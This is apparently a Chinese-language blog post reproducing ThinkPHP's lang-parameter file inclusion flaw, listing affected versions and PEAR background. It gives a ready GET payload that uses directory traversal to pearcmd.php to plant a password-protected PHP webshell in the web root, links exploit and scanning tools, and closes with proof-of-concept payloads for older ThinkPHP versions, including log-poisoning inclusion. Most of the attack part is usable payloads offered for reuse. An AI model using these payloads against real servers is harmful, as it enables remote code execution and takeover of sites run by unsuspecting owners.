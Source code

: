 访问路径诶：/public/index.php  
  
**2 影响版本**  
  
6.0.1 < ThinkPHP≤ 6.0.13  
  
5.0.0 < ThinkPHP≤ 5.0.12  
  
5.1.0 < ThinkPHP≤ 5.1.8  
  
**3 前置知识**  
  
1.HTML之lang属性：在Html全局属性列表中，对lang属性的描述为（Defines the language used in the element - 定义元素中使用的语言），顾名思义，lang属性的作用就是用来定义元素中使用的语言。  
  
2.PEAR:PEAR也就是为PHP扩展与应用库(PHP Extension and Application Repository)，它是一个PHP扩展及应用的一个代码仓库。  
  
3.Pearcmd：pearcmd.php是pear工具调用的功能文件，pear是管理php的扩展管理工具， 可以理解为php的命令行工具。  
  
4.config-create：创建文件，该方法需接收两个参数，第一个参数是写入文件的内容，第二个参数是写入文件的路径  
  
**4 复现**  
  
访问  
public/index.php可以看到明显的tp特征  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5up6TPpuCn3NNwS5LDO7MqCO8vfYS9f5nw8Cmkq63fIichFj9wuHQ5eCia04LR9Vl2ibWEEGJ6ibP0BWYw/640?wx_fmt=png "")  
  
get访问  
```
?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_REQUEST['milu']);?>+/var/www/html/milu.php
```  
  
解释一下  
payload  
  
就是利用目录遍历到pearcmd,然后  
通过 pearcmd 文件包含这个trick去执行创建/var/www/html/milu.php文件并写入一句话木马,密码为milu  
  
然后访问milu.php就行了  
  
**一些指纹工具和网站**  
  
TideFinger 潮汐指纹 TideFinger 潮汐指纹 (tidesec.com)  
  
https://github.com/anx0ing/thinkphp_scan  
  
https://github.com/sukabuliet/ThinkphpRCE  
  
https://github.com/bewhale/thinkphp_gui_tools  
  
https://github.com/Lotus6/ThinkphpGUI(无2版本检测功能)  
  
**最后总结个各版本的poc吧**  
  
2.x  
```
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```  
  
3.2.3  
```
index.php?m=--><?=phpinfo();?>
index.php?m=Home&c=Index&a=index&value[_filename]=.\Application\Runtime\Logs\Common\日期.log
```  
  